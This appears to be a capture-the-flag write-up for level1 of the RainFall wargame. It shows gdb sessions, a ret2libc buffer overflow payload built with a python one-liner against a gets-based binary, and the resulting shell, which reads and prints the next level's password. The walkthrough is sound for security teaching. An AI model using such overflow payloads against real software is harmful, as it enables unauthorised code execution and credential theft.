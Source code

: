 With gdb, we can try to verify the length of the buffer.
To do so, we run `gbd ./level01` and we write 76 characters. 

> (gdb) run
> The program being debugged has been started already.
> Start it from the beginning? (y or n) y
> Starting program: /home/user/level1/level1 
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
> Program received signal SIGILL, Illegal instruction.
> 0xb7e45400 in __libc_start_main () from /lib/i386-linux-gnu/libc.so.6  

There is already an issue due to the `null byte` at the end of a string while we use `gets`.
So if we want to use the buffer overflow, we must give a buffer of 76 characters.
Secondly, we must not close the prompt, so a simple execution of a python script won't work. To keep the prompt open, we will use the following command :

```bash
cat <(cmd) - | ./level1
```

There are two ways to exploit a buffer overflow. Either by using a shell-code and rewrite the eip address. Or we can change the stack directly so it will do what we want.
We will go with the second option.
To do so, we need to find the location of the function `system` and find the string `/bin/sh` with gdb :

```assembly
(gdb) disass system
Dump of assembler code for function system:
   0xb7e6b060 <+0>:	sub    $0x1c,%esp
```

```assembly
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
```

We just need to put whatever we want as the return address of the function. And we are good to go :

> level1@RainFall:~$ cat <(python -c 'print "A" * 76 + "\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7"') - | ./level1 
> whoami
> level2
> cat /home/user/level2/.pass
> 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```bash
su level2
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```


